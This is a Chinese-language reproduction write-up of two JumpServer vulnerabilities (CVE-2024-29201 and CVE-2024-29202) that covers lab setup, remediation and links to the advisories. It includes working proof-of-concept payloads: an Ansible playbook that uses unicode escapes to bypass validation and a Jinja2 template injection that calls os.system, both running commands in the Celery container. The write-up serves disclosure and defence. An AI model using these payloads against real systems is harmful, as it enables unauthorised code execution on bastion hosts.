





# [](#JumpServer-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0-CVE-2024-29201-CVE-2024-29202 "JumpServer 漏洞复现(CVE-2024-29201&CVE-2024-29202)")JumpServer 漏洞复现 (CVE-2024-29201&CVE-2024-29202)

### [](#0x01-%E7%AE%80%E4%BB%8B "0x01 简介")0x01 简介

JumpServer 是广受欢迎的开源堡垒机，是符合 4A 规范的专业运维安全审计系统。

### [](#0x02-%E6%BC%8F%E6%B4%9E%E6%A6%82%E8%BF%B0 "0x02 漏洞概述")0x02 漏洞概述

CVE-2024-29201 远程代码执行漏洞，该漏洞可绕过 JumpServer 的 Ansible 中的输入验证机制，在 Celery 容器中执行任意代码  
CVE-2024-29202 Jinin2 模板注入漏洞，该漏洞是有 JumpServer 的 Ansible 中存在 Jinja2 模板注入，在 Celery 容器中执行任意代码。  
值的注意的是：**两个漏洞利用的条件都需要账号且至少有一个资产**。

### [](#0x03-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC "0x03 影响版本")0x03 影响版本

v3.0.0 <= JumpServer <= v3.10.6

### [](#0x04-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA "0x04 环境搭建")0x04 环境搭建

首先下载官方提供的[脚本](https://resource.fit2cloud.com/jumpserver/jumpserver/releases/latest/download/quick_start.sh)，下载后编辑 `quick_start.sh`，将脚本中的 `VERSION` 修改为存在漏洞版本，如：`V3.10.6`。如下图所示：  
[](https://images.wh0am1i.com/-5gfkg2cynB)

等待服务启动，启动完成后访问 [http://ip/](http://ip/)  
[](https://images.wh0am1i.com/-EMoYEnoPo5)

JumpServer 默认账号密码为 `admin/admin`

接着进入后台添加资产，具体步骤如下图所示：  
[](https://images.wh0am1i.com/-HZFtCh4oe6)

添加资产后需要测试是否添加成功，点击资产后面的 `更多-测试` 进行测试。

资产添加完成后添加用户，如下图所示：  
[](https://images.wh0am1i.com/-HZFtCh4oe6)

最后为用户分配一个资产，如下图所示：  
[](https://images.wh0am1i.com/-atVy9Rwxaf)

至此环境搭建完成。

### [](#0x05-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0 "0x05 漏洞复现")0x05 漏洞复现

#### [](#CVE-2024-29201 "CVE-2024-29201")CVE-2024-29201

登陆创建的普通用户账号，进入 `作业中心-模板管理` 添加一个 `Playbook`  
[](https://images.wh0am1i.com/-zZJSuWtH9R)

点击创建的 `Playbook` 名称，切换到 `工作空间`，输入以下内容：

```tools
plaintext
```

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>``` | ```plain<br>[{<br>     "name": "RCE playbook",<br>     "hosts": "all",<br>     "tasks": [<br>       {<br>         "name": "this runs in Celery container",<br>         "shell": "id > /tmp/pwnd",<br>         "\u0064elegate_to": "localhost"<br>} ],<br>     "vars": {<br>     "ansible_\u0063onnection": "local"<br>     }<br>}]<br>``` |

[](https://images.wh0am1i.com/-L4NQ8HeAsH)

点击保存。保存完成之后切换到 `作业管理` 页面，创建一个新的 `Playbook` 作业  
[](https://images.wh0am1i.com/-gsaUh5x97Y)

`playbook` 作业详情如下：  
[](https://images.wh0am1i.com/-ZkvUZAW2rE)

点击保存并运行作业  
[](https://images.wh0am1i.com/-RvvbH9ehui)  
运行结果如下：  
[](https://images.wh0am1i.com/-bDWZ69Nas8)

进入 Celery 容器，查看 tmp 目录下是否存在 `pwnd` 文件  
[](https://images.wh0am1i.com/-AaKsMPSnpm)

#### [](#CVE-2024-29202 "CVE-2024-29202")CVE-2024-29202

与 CVE-2024-29201 类似，进入 `作业中心-模板管理` 添加一个 `Playbook`，在 `工作空间` 输入的内容为：

```tools
plaintext
```

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```plain<br>- name: \|<br>       <br>         <br>           {{<br>             x()._module.__builtins__["__import__"]("os").system("id > /tmp/pwnd2")<br>           }}<br>         <br>       <br>``` |

添加完成后，同样进入作业管理页面创建并运行 `Playbook` 作业。运行结果如下：  
[](https://images.wh0am1i.com/-Fe6jbZnGLk)

进入 Celery 容器，查看 tmp 目录下是否存在 `pwnd2` 文件  
[](https://images.wh0am1i.com/-EbidEn8Tyd)

### [](#0x06-%E4%BF%AE%E5%A4%8D%E6%96%B9%E5%BC%8F "0x06 修复方式")0x06 修复方式

1.  升级到 v3.10.7 版本
2.  关闭任务中心，任务中心位于：系统设置 - 功能设置 - 任务中心

### [](#0x06-%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5%EF%BC%9A "0x06 参考链接：")0x06 参考链接：

[https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj](https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj)  
[https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch](https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch)
